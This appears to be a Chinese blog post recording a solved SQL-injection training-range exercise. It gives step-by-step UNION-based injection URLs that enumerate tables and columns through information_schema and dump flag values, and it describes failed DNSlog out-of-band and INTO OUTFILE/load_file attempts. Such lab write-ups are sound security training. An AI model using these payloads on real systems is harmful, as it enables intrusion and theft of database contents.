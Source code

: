 ```yaml
---
layout: post
title: 掌控安全 SQL 注入靶场练习Pass2 - 单引号报错注入
categories: [安全]
description: sql 注入靶场练习 单引号报错注入
keywords: sql注入, oob带外, dnslog
---
```


# 掌控安全 SQL 注入靶场练习Pass2 - 单引号报错注入

+ 课程目标 `https://hack.zkaq.cn/battle/target?id=695d4b6fe02d0bf3`

> **注意**, **误区** : 一定 **不要认为** 所有错误都会被反映到页面上， 程序会处理错误逻辑，并隐藏。


## 0x01. 判断注入点

### 引号探测

使用 `http://injectx1.lab.aqlab.cn:81/Pass-02/index.php?id=1' and 1=1 --+`。 可以正常显示结果， 但 `1=2 --+` 不行。 

> 判断为 **单引号** 闭合。


### 错误姿势


```sql
-- 1. 语句错误, 测试了 `select 1 到 7`。 都没发现可以显示的注入点。 
http://injectx1.lab.aqlab.cn:81/Pass-02/index.php?id=1' and select 1,2,3,4,5,6,7 --+ 
```
> 1. 首先`语句错误` ， 这里应该使用 **联合查询（UNION）** 确认注入点，而非 **AND**

```sql
-- 2. 联合查询判断条件错误, 显示结果不提示注入点
http://injectx1.lab.aqlab.cn:81/Pass-02/index.php?id=1' union select 1,2,3 --+ 1
```
> 2. 使用联合查询后使用 `id=1'` 并不能确认 `select 1,2,3` 的注入点， 因为 **UNION 求并集** 依旧会显示正常查询结果。 如图 *select-union-condition-miss.png* 所示

![select-union-condition-miss.png](/images/post/2020/12/09/select-union-condition-miss.png)


### 正确姿势

```sql
-- 1. 正确判断, --+ 注释
http://injectx1.lab.aqlab.cn:81/Pass-02/index.php?id=1' and 1=2 union select 1,2,3 --+ 1
```

```sql
-- 2. 正确判断, # 号注释。 urlcode %23  = #
http://injectx1.lab.aqlab.cn:81/Pass-02/index.php?id=1' and 1=2 union select 1,2,3 %23+ 1
```

1. `id=1' and 1=2` : 闭合 **左单引号** ， 错误截断 。
2. `1=2 union select 1,2,3` : 尝试注入点
3. `--+ 1` 或 `%23+ 1` : 注释右单引号 。 

> **Notice** : `+` 将在 URL Code 中转为为 **空格 ` `**


## 0x02. 数据查找

找到了 **注入显示点** 之后， 剩下的就是是 **联合查询** 的问题了 ， 可以说的东西不多

### 0x02.1. 查询库名, 表名

由于有 **2 和 3** 两个可注入点， 因此在构造语句的时候，使用了 **2条自查询**

1. `select database()` : 查询当前库名
2. `select group_concat(table_name) from information_schema.tables where table_schema=database())` : 通过 `information_schema` 库查询当前所有表名。

```sql
-- dump dbname and tablename 
http://injectx1.lab.aqlab.cn:81/Pass-02/index.php?id=1' and 1=2 union select 1, (select database()), (select group_concat(table_name) from information_schema.tables where table_schema=database()) --+ 1


-- dbname: error
-- tablenames: error_flag,user
```

### 0x02.2. 查询列名

```sql
--- dump column name
http://injectx1.lab.aqlab.cn:81/Pass-02/index.php?id=1' and 1=2 union select 1,2,group_concat(column_name) from information_schema.columns where table_schema=database() and table_name='error_flag' --+ 1


-- columns: Id,flag
```

![dump-column-name.png](/images/post/2020/12/09/dump-column-name.png)

### 0x02.3. 查询 flag 所有字段值

```sql
--- dump flag values
http://injectx1.lab.aqlab.cn:81/Pass-02/index.php?id=1' and 1=2 union select 1,2,(select group_concat(flag) from error_flag) --+ 1

-- flags: zKaQ-Nf,zKaQ-BJY,zKaQ-XiaoFang,zKaq-98K
```

### 0x03 提交

五个过关 Flag 中 应该只有一个是正确的， 所以需要轮训尝试。

> 第一关的时候我以为 5 个都可以用。 结果随机选择的时候，发现有错误， 还以为程序异常呢。



## 0x04 尝试方法

**1. 使用 OOB (out of band) 带外测试**

最开始在遇到 **注入显示点** 问题的时候， 本准备放弃查找显示点。 替换使用 **`OOB` 带外测试 - Dnslog 测试** 直接一把梭把所有数据全部提交到 `dnslog.cn` 上 。

然而意想不到的是， `dnslog 测试` 不可用， `load_file` 构造的请求无法成功。

**2. OOB 文件 测试法**

在查找 `load_file()` 函数使用过程中， 找到了以下 paper 。 使用 `INTO OUTFILE` 将结果存储到 目标目录。

> https://www.exploit-db.com/papers/14635

+ `select database`

```sql
--- select database
http://injectx1.lab.aqlab.cn:81/Pass-02/index.php?id=1' union all select database() INTO OUTFILE '/tmp/1.txt' --+ 1

```

+ `select load_file`

```sql
--- select load_file
http://injectx1.lab.aqlab.cn:81/Pass-02/index.php?id=1' and 1=2 union all select 1,2,(select load_file('/tmp/1.txt' )) --+ 1
```

然而失败了。 T_T 。

